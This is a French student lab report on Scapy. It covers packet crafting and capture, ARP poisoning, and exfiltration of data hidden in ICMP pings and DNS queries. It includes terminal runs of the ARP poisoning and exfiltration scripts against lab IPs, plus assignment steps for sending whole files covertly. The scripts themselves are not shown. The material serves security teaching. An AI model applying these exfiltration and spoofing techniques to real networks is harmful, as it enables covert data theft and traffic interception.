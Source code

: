 # TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

J'ai ping le pc d'Alan car on ne peut pas ping la passerelle d'Ynov :x

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=98:3b:8f:b4:db:38 src=84:14:4D:10:5E:AF type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.218 dst=10.33.77.246 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=84:14:4d:10:5e:af src=98:3b:8f:b4:db:38 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=32774 flags= frag=0 ttl=64 proto=icmp chksum=0x4bc9 src=10.33.77.246 dst=10.33.76.218 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 10.33.76.218
- Adresse IP dst : 162.159.133.234
- Port TCP src : 12283
- Port TCP dst : 443
```

🌞 **`dns_cap.py`**

```
fmaxance@ZeyKiiPC:~$ dig ynov.com

; <<>> DiG 9.18.19-1~deb12u1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47655
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;ynov.com.                      IN      A

;; ANSWER SECTION:
ynov.com.               300     IN      A       104.26.10.233
ynov.com.               300     IN      A       172.67.74.226
ynov.com.               300     IN      A       104.26.11.233

;; Query time: 23 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Tue Nov 28 09:31:12 CET 2023
;; MSG SIZE  rcvd: 85
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_cap.py
104.26.10.233
```

🌞 **`dns_lookup.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_lookup.py 
Ether / IP / UDP / DNS Ans "104.26.10.233"
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 arp_poisoning.py
Enter the victims ip: 10.33.74.177
.
Sent 1 packets.
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_send.py 10.1.1.1 j
.
Sent 1 packets.
Payload 'j' envoyé avec succès à 10.1.1.1.
```

![icpm](images/icmp_exf_send.png)

🌞 **`icmp_exf_receive.py`**

Depuis le pc de doniban :

```
python3 icmp_exf_send.py 10.33.73.20 meow
```

Sur mon pc:

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_receive.py
Sniffing en cours...
Caractère caché: meow
```

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

![DNS exfiltration](./img/dns_exf.jpg)